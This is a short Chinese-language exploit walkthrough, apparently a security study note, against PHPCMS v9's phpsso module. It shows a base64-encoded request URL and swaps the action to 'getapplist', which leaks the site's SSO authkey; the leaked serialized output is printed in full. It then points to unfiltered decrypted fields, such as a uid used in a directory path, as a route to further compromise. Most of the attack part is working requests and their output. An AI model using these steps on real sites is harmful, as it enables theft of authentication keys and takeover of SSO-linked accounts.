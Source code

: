 拿到这个：

aHR0cDovL2xvY2FsaG9zdDo4MDM4L3N0dWR5L3BocGNtcy9waHBzc29fc2VydmVyL2luZGV4LnBocD9tPXBocHNzbyZjPWluZGV4JmE9dXBsb2FkYXZhdGFyJmF1dGhfZGF0YT12PTEmYXBwaWQ9MSZkYXRhPWU1YzJWQU1HVVFaUkFRa0lVUVFLVndGVUFnSUNWZ0FJQWxkVkJRRkREUVZjVjBNVVFHa0FReFZaWmxNRUdBOSUyQkRqWm9LMUFIUm1Vd0JHY09YVzVVRGdRaEpEeGFlUVZuR0FkeFZSY0tRQQ==

解除 base64_decode 编码得

[`localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`](http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA)

将 url 里的 uploadavatar 换成：getapplist 得：

[`localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`](http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA)

访问得：

a:1:{i:1;a:9:{s:5:"appid";s:1:"1";s:4:"type";s:9:"phpcms_v9";s:4:"name";s:9:"phpcms v9";s:3:"url";s:35:"[`localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}}`](http://localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}})

和我们想的一样，authkey 在里面：

s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr"

拿到这个 key 已经可以想做什么想什么了，sso 体系里的东西都可以做了。

```
解密出来的东西不受控制，可以包含 null 截断，也可以包含单双引号 
```

举个例子：

/phpcms/phpsso_server/phpcms/modules/phpsso/index.php

内：

public function uploadavatar()

写的

$this->uid = $this->data['uid']; //uid 来自解密出来的 uid

$this->avatardata = $this->data['avatardata']; //数据内容来自解密出来的数据内容

……

$dir = $avatarfile.$dir1.'/'.$dir2.'/'.$this->uid.'/';

//目录名里引用了来自解密内容的 uid
